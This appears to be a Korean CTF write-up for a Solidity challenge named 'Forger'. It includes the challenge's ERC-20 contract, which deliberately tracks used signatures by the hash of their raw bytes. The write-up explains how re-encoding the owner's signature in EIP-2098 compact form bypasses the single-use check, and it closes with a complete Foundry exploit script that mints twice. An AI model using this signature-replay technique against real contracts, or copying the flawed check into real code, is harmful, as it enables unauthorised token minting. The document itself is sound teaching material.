

## 문제
### 지문
This is the Forger, the token printer your mom warned you about.
This ERC-20 hands out mint passes signed by the owner... or so they say.
One golden signature already exists, good for 100 shiny tokens.
The team insists the pass is single-use and perfectly safe.
Your goal? Making the total supply greater than 100 tokens.
Get creative, stay sharp, and may your forgeries be legendary.
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.30;

import { ERC20 } from "openzeppelin-contracts-v4.6.0/token/ERC20/ERC20.sol";
import { ECDSA } from "openzeppelin-contracts-v4.6.0/utils/cryptography/ECDSA.sol";

contract Forger is ERC20 {

    error SignatureExpired();
    error SignatureUsed();
    error InvalidSigner(address wrongSigner);
    error OnlyOwner();

    address public owner = 0xC9CAF9e17BBb4e4D27810d97d2C2a467A701e0D5;
    mapping(bytes32 signatureHash => bool used) public signatureUsed;

    constructor() ERC20("Forger Token", "FT") {}

    // It seems like the owner has already signed a mint of tokens for someone:
    // signature = f73465952465d0595f1042ccf549a9726db4479af99c27fcf826cd59c3ea7809402f4f4be134566025f4db9d4889f73ecb535672730bb98833dafb48cc0825fb1c
    // amount = 100 ether
    // receiver = 0x1D96F2f6BeF1202E4Ce1Ff6Dad0c2CB002861d3e
    // salt = 0x044852b2a670ade5407e78fb2863c51de9fcb96542a07186fe3aeda6bb8a116d
    // deadline = 115792089237316195423570985008687907853269984665640564039457584007913129639935
    function createNewTokensFromOwnerSignature(
        bytes calldata signature,
        address receiver,
        uint256 amount,
        bytes32 salt,           
        uint256 deadline      
    ) public {
        require(block.timestamp <= deadline, SignatureExpired());
        require(!signatureUsed[keccak256(signature)], SignatureUsed());

        bytes32 messageHash = keccak256(abi.encode(
            receiver,
            amount,
            salt,
            deadline
        ));

        address signer = ECDSA.recover(messageHash, signature);

        require(signer == owner, InvalidSigner(signer));

        signatureUsed[keccak256(signature)] = true;

        _mint(receiver, amount);
    }

    function invalidateSignature(bytes calldata signature) external {
        require(msg.sender == owner, OnlyOwner());
        signatureUsed[keccak256(signature)] = true;
    }
}
```
## 배경지식
---
Ethereum에서 일반적으로 보는 ECDSA 서명은 `(r, s, v)`를 이어 붙인 65바이트 형식이다. `r`과 `s`는 각각 32바이트이고, `v`는 복구할 공개키 후보를 고르는 1바이트 값이다. 보통 Ethereum 서명에서는 `v`가 27 또는 28로 표현된다.
문제에 주어진 서명을 나눠보면 다음과 같다.
```plain text
r = 0xf73465952465d0595f1042ccf549a9726db4479af99c27fcf826cd59c3ea7809
s = 0x402f4f4be134566025f4db9d4889f73ecb535672730bb98833dafb48cc0825fb
v = 0x1c = 28
```
---
OpenZeppelin `ECDSA.recover`는 65바이트 `(r, s, v)` 형식뿐 아니라 EIP-2098의 64바이트 compact signature도 처리한다. compact signature는 `(r, vs)`로 구성된다. 여기서 `vs`는 `s`의 최상위 비트에 `v`의 parity를 같이 넣은 값이다.
`v=27`이면 parity가 0이고, `v=28`이면 parity가 1이다. 이 문제의 서명은 `s`의 최상위 비트를 1로 세워서 다음 compact 형식으로도 표현할 수 있다.
```plain text
vs = 0xc02f4f4be134566025f4db9d4889f73ecb535672730bb98833dafb48cc0825fb
```
65바이트 서명과 64바이트 서명의 바이트열은 서로 다르지만, `ECDSA.recover(messageHash, signature)`의 결과는 같은 owner다.
## 문제 코드 분석
---
먼저 mint 메시지를 보자.
```solidity
bytes32 messageHash = keccak256(abi.encode(
    receiver,
    amount,
    salt,
    deadline
));

address signer = ECDSA.recover(messageHash, signature);
```
민트 권한은 `receiver`, `amount`, `salt`, `deadline`을 `abi.encode`한 뒤 `keccak256`으로 해시한 메시지에 대해 검증된다. 문제 주석에는 이미 owner가 서명한 값들이 모두 주어져 있다.
즉 우리는 새 메시지를 만들 필요가 없다. 주어진 `receiver`, `amount`, `salt`, `deadline`을 그대로 넣고, owner로 복구되는 서명만 제출하면 된다.
---
이제 `signatureUsed` 체크를 보자.
```solidity
require(!signatureUsed[keccak256(signature)], SignatureUsed());
...
signatureUsed[keccak256(signature)] = true;
```
중복 사용 방지는 메시지 해시나 민트 파라미터가 아니라 `signature` 바이트열 자체의 해시로 처리된다. 같은 의미의 서명이라도 바이트 표현이 다르면 서로 다른 key로 기록된다.
65바이트 `(r, s, v)` 서명과 64바이트 `(r, vs)` 서명은 같은 메시지에 대해 같은 signer를 복구하지만, `keccak256(signature)` 값은 다르다. 따라서 둘 다 `signatureUsed`를 통과할 수 있다.
---
목표 조건은 단순하다.
```solidity
_mint(receiver, amount);
```
한 번 호출하면 `100 ether`만 mint된다. 문제 목표는 total supply를 100보다 크게 만드는 것이므로 같은 owner 서명을 다른 형식으로 두 번 제출하면 된다.
이 문제는 `(r, n-s, 55-v)`를 쓰는 전통적인 ECDSA malleability가 아니다. OpenZeppelin은 high-`s` 서명을 막는다. 여기서는 같은 low-`s` 서명을 표준 65바이트 형식과 EIP-2098 64바이트 형식으로 다르게 직렬화해서 우회한다.
## 풀이
주어진 signature는 이미 65바이트 표준 형식이다. 이를 그대로 `canonicalSignature`라고 하자.
그리고 `v=28`이므로 `s`의 최상위 비트를 1로 설정해 `vs`를 만든다. 이 값을 `r`과 이어 붙이면 64바이트 `compactSignature`가 된다.
두 서명은 바이트열이 다르다.
```plain text
canonicalSignature = abi.encodePacked(r, s, v)  // 65 bytes
compactSignature   = abi.encodePacked(r, vs)    // 64 bytes
```
하지만 둘 다 같은 `messageHash`에서 owner를 복구한다. 그래서 `compactSignature`로 한 번 mint하고, `canonicalSignature`로 한 번 더 mint하면 total supply가 `200 ether`가 된다.
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import "forge-std/Script.sol";

interface IForger {
    function createNewTokensFromOwnerSignature(
        bytes calldata signature,
        address receiver,
        uint256 amount,
        bytes32 salt,
        uint256 deadline
    ) external;
    function totalSupply() external view returns (uint256);
}

contract Sol39 is Script {
    address private constant RECEIVER = 0x1D96F2f6BeF1202E4Ce1Ff6Dad0c2CB002861d3e;
    uint256 private constant AMOUNT = 100 ether;
    bytes32 private constant SALT = 0x044852b2a670ade5407e78fb2863c51de9fcb96542a07186fe3aeda6bb8a116d;
    uint256 private constant DEADLINE = type(uint256).max;

    bytes32 private constant R = hex"f73465952465d0595f1042ccf549a9726db4479af99c27fcf826cd59c3ea7809";
    bytes32 private constant S = hex"402f4f4be134566025f4db9d4889f73ecb535672730bb98833dafb48cc0825fb";
    bytes32 private constant VS = hex"c02f4f4be134566025f4db9d4889f73ecb535672730bb98833dafb48cc0825fb";
    uint8 private constant V = 28;

    function run() external {
        uint256 privateKey = vm.envUint("PRIVATE_KEY");
        IForger forger = IForger(vm.envAddress("FORGER_INSTANCE"));
        uint256 initialSupply = forger.totalSupply();

        bytes memory compactSignature = abi.encodePacked(R, VS);
        bytes memory canonicalSignature = abi.encodePacked(R, S, V);

        vm.startBroadcast(privateKey);
        forger.createNewTokensFromOwnerSignature(compactSignature, RECEIVER, AMOUNT, SALT, DEADLINE);
        forger.createNewTokensFromOwnerSignature(canonicalSignature, RECEIVER, AMOUNT, SALT, DEADLINE);
        vm.stopBroadcast();

        require(forger.totalSupply() > initialSupply + AMOUNT, "total supply did not exceed one mint");
    }
}
```

